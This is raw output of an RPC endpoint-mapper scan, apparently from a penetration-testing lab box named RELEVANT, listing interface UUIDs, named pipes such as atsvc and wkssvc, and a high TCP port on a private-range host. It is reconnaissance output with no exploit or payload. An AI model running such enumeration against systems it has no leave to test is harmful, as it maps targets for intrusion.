[*] 10.10.211.209:135 - e7f76134-9ef5-4949-a2d6-3368cc0988f3 v1.0 LRPC (LRPC-478092532139d99af7)
[*] 10.10.211.209:135 - 7aeb6705-3ae6-471a-882d-f39c109edc12 v1.0 LRPC (LRPC-478092532139d99af7)
[*] 10.10.211.209:135 - f2c9b409-c1c9-4100-8639-d8ab1486694a v1.0 LRPC (nlaplg) [Witness Client Upcall Server]
[*] 10.10.211.209:135 - f2c9b409-c1c9-4100-8639-d8ab1486694a v1.0 LRPC (nlaapi) [Witness Client Upcall Server]
[*] 10.10.211.209:135 - f2c9b409-c1c9-4100-8639-d8ab1486694a v1.0 LRPC (DNSResolver) [Witness Client Upcall Server]
[*] 10.10.211.209:135 - eb081a0d-10ee-478a-a1dd-50995283e7a8 v3.0 LRPC (nlaplg) [Witness Client Test Interface]
[*] 10.10.211.209:135 - eb081a0d-10ee-478a-a1dd-50995283e7a8 v3.0 LRPC (nlaapi) [Witness Client Test Interface]
[*] 10.10.211.209:135 - eb081a0d-10ee-478a-a1dd-50995283e7a8 v3.0 LRPC (DNSResolver) [Witness Client Test Interface]
[*] 10.10.211.209:135 - 7f1343fe-50a9-4927-a778-0c5859517bac v1.0 LRPC (nlaplg) [DfsDs service]
[*] 10.10.211.209:135 - 7f1343fe-50a9-4927-a778-0c5859517bac v1.0 LRPC (nlaapi) [DfsDs service]
[*] 10.10.211.209:135 - 7f1343fe-50a9-4927-a778-0c5859517bac v1.0 LRPC (DNSResolver) [DfsDs service]
[*] 10.10.211.209:135 - 7f1343fe-50a9-4927-a778-0c5859517bac v1.0 PIPE (\PIPE\wkssvc) \\RELEVANT [DfsDs service]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (IUserProfile2) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (IUserProfile2) [Impl friendly name]
[*] 10.10.211.209:135 - 2eb08e3e-639f-4fba-97b1-14f878961076 v1.0 LRPC (LRPC-7b4055ac0b4323350f) [Group Policy RPC Interface]
[*] 10.10.211.209:135 - 30b044a5-a225-43f0-b3a4-e060df91f9c1 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4)
[*] 10.10.211.209:135 - 30b044a5-a225-43f0-b3a4-e060df91f9c1 v1.0 LRPC (IUserProfile2)
[*] 10.10.211.209:135 - 30b044a5-a225-43f0-b3a4-e060df91f9c1 v1.0 LRPC (LRPC-4bea3e1d172efa7a01)
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (IUserProfile2) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (senssvc) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (IUserProfile2) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (senssvc) [Impl friendly name]
[*] 10.10.211.209:135 - 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4)
[*] 10.10.211.209:135 - 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53 v1.0 LRPC (IUserProfile2)
[*] 10.10.211.209:135 - 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53 v1.0 LRPC (LRPC-4bea3e1d172efa7a01)
[*] 10.10.211.209:135 - 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53 v1.0 LRPC (senssvc)
[*] 10.10.211.209:135 - 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53 v1.0 LRPC (DeviceSetupManager)
[*] 10.10.211.209:135 - 29770a8f-829b-4158-90a2-78cd488501f7 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4)
[*] 10.10.211.209:135 - 29770a8f-829b-4158-90a2-78cd488501f7 v1.0 LRPC (IUserProfile2)
[*] 10.10.211.209:135 - 29770a8f-829b-4158-90a2-78cd488501f7 v1.0 LRPC (LRPC-4bea3e1d172efa7a01)
[*] 10.10.211.209:135 - 29770a8f-829b-4158-90a2-78cd488501f7 v1.0 LRPC (senssvc)
[*] 10.10.211.209:135 - 29770a8f-829b-4158-90a2-78cd488501f7 v1.0 LRPC (DeviceSetupManager)
[*] 10.10.211.209:135 - 29770a8f-829b-4158-90a2-78cd488501f7 v1.0 LRPC (SessEnvPrivateRpc)
[*] 10.10.211.209:135 - 29770a8f-829b-4158-90a2-78cd488501f7 v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT
[*] 10.10.211.209:135 - 29770a8f-829b-4158-90a2-78cd488501f7 v1.0 TCP (49666) 10.10.211.209
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4)
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 LRPC (IUserProfile2)
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 LRPC (LRPC-4bea3e1d172efa7a01)
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 LRPC (senssvc)
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 LRPC (DeviceSetupManager)
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 LRPC (SessEnvPrivateRpc)
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 TCP (49666) 10.10.211.209
[*] 10.10.211.209:135 - 1ff70682-0a51-30e8-076d-740be8cee98b v1.0 PIPE (\PIPE\atsvc) \\RELEVANT
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4)
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 LRPC (IUserProfile2)
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 LRPC (LRPC-4bea3e1d172efa7a01)
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 LRPC (senssvc)
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 LRPC (DeviceSetupManager)
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 LRPC (SessEnvPrivateRpc)
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 TCP (49666) 10.10.211.209
[*] 10.10.211.209:135 - 378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 PIPE (\PIPE\atsvc) \\RELEVANT
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 LRPC (OLE04105744772CBD3658A8B4B39FD4)
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 LRPC (IUserProfile2)
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 LRPC (LRPC-4bea3e1d172efa7a01)
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 LRPC (senssvc)
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 LRPC (DeviceSetupManager)
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 LRPC (SessEnvPrivateRpc)
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 TCP (49666) 10.10.211.209
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 PIPE (\PIPE\atsvc) \\RELEVANT
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 LRPC (ubpmtaskhostchannel)
[*] 10.10.211.209:135 - 33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 LRPC (LRPC-6cdb557a8eb4025087)
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4)
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 LRPC (IUserProfile2)
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 LRPC (LRPC-4bea3e1d172efa7a01)
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 LRPC (senssvc)
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 LRPC (DeviceSetupManager)
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 LRPC (SessEnvPrivateRpc)
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 TCP (49666) 10.10.211.209
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 PIPE (\PIPE\atsvc) \\RELEVANT
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 LRPC (ubpmtaskhostchannel)
[*] 10.10.211.209:135 - 86d35949-83c9-4044-b424-db363231fd0c v1.0 LRPC (LRPC-6cdb557a8eb4025087)
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4)
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 LRPC (IUserProfile2)
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 LRPC (LRPC-4bea3e1d172efa7a01)
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 LRPC (senssvc)
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 LRPC (DeviceSetupManager)
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 LRPC (SessEnvPrivateRpc)
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 TCP (49666) 10.10.211.209
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 PIPE (\PIPE\atsvc) \\RELEVANT
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 LRPC (ubpmtaskhostchannel)
[*] 10.10.211.209:135 - 3a9ef155-691d-4449-8d05-09ad57031823 v1.0 LRPC (LRPC-6cdb557a8eb4025087)
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 LRPC (IUserProfile2) [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 LRPC (senssvc) [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 LRPC (DeviceSetupManager) [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 LRPC (SessEnvPrivateRpc) [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 TCP (49666) 10.10.211.209 [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 LRPC (ubpmtaskhostchannel) [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 552d076a-cb29-4e44-8b6a-d15e59e2c0af v1.0 LRPC (LRPC-6cdb557a8eb4025087) [IP Transition Configuration endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 LRPC (IUserProfile2) [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 LRPC (senssvc) [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 LRPC (DeviceSetupManager) [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 LRPC (SessEnvPrivateRpc) [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 TCP (49666) 10.10.211.209 [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 LRPC (ubpmtaskhostchannel) [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - 2e6035b2-e8f1-41a7-a044-656b439c4c34 v1.0 LRPC (LRPC-6cdb557a8eb4025087) [Proxy Manager provider server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 LRPC (IUserProfile2) [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 LRPC (senssvc) [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 LRPC (DeviceSetupManager) [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 LRPC (SessEnvPrivateRpc) [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 TCP (49666) 10.10.211.209 [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 LRPC (ubpmtaskhostchannel) [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c36be077-e14b-4fe9-8abc-e856ef4f048b v1.0 LRPC (LRPC-6cdb557a8eb4025087) [Proxy Manager client server endpoint]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 LRPC (IUserProfile2) [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 LRPC (senssvc) [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 LRPC (DeviceSetupManager) [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 LRPC (SessEnvPrivateRpc) [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 TCP (49666) 10.10.211.209 [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 LRPC (ubpmtaskhostchannel) [Adh APIs]
[*] 10.10.211.209:135 - c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 v1.0 LRPC (LRPC-6cdb557a8eb4025087) [Adh APIs]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (IUserProfile2) [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (senssvc) [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (DeviceSetupManager) [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (SessEnvPrivateRpc) [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 TCP (49666) 10.10.211.209 [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (ubpmtaskhostchannel) [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (LRPC-6cdb557a8eb4025087) [UserMgrCli]
[*] 10.10.211.209:135 - b18fbab6-56f8-4702-84e0-41053293a869 v1.0 LRPC (LRPC-d45dca6e77fc3da3c4) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (IUserProfile2) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (senssvc) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (DeviceSetupManager) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (SessEnvPrivateRpc) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 TCP (49666) 10.10.211.209 [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (ubpmtaskhostchannel) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (LRPC-6cdb557a8eb4025087) [UserMgrCli]
[*] 10.10.211.209:135 - 0d3c7f20-1c8d-4654-a1b3-51563b298bda v1.0 LRPC (LRPC-d45dca6e77fc3da3c4) [UserMgrCli]
[*] 10.10.211.209:135 - cc105610-da03-467e-bc73-5b9e2937458d v1.0 LRPC (LRPC-19aed192163f05c8c5) [LiveIdSvc RPC Interface]
[*] 10.10.211.209:135 - faf2447b-b348-4feb-8dbe-beee5b7f7778 v1.0 LRPC (LRPC-19aed192163f05c8c5) [OnlineProviderCert RPC Interface]
[*] 10.10.211.209:135 - 572e35b4-1344-4565-96a1-f5df3bfa89bb v1.0 LRPC (liveidsvcnotify) [LiveIdSvcNotify RPC Interface]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (IUserProfile2) [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (senssvc) [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (DeviceSetupManager) [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (SessEnvPrivateRpc) [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 TCP (49666) 10.10.211.209 [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (ubpmtaskhostchannel) [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (LRPC-6cdb557a8eb4025087) [AppInfo]
[*] 10.10.211.209:135 - 201ef99a-7fa0-444c-9399-19ba84f12a1a v1.0 LRPC (LRPC-d45dca6e77fc3da3c4) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (IUserProfile2) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (senssvc) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (DeviceSetupManager) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (SessEnvPrivateRpc) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 TCP (49666) 10.10.211.209 [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (ubpmtaskhostchannel) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (LRPC-6cdb557a8eb4025087) [AppInfo]
[*] 10.10.211.209:135 - 5f54ce7d-5b79-4175-8584-cb65313a0e98 v1.0 LRPC (LRPC-d45dca6e77fc3da3c4) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (IUserProfile2) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (senssvc) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (DeviceSetupManager) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (SessEnvPrivateRpc) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 TCP (49666) 10.10.211.209 [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (ubpmtaskhostchannel) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (LRPC-6cdb557a8eb4025087) [AppInfo]
[*] 10.10.211.209:135 - fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 v1.0 LRPC (LRPC-d45dca6e77fc3da3c4) [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (IUserProfile2) [AppInfo]
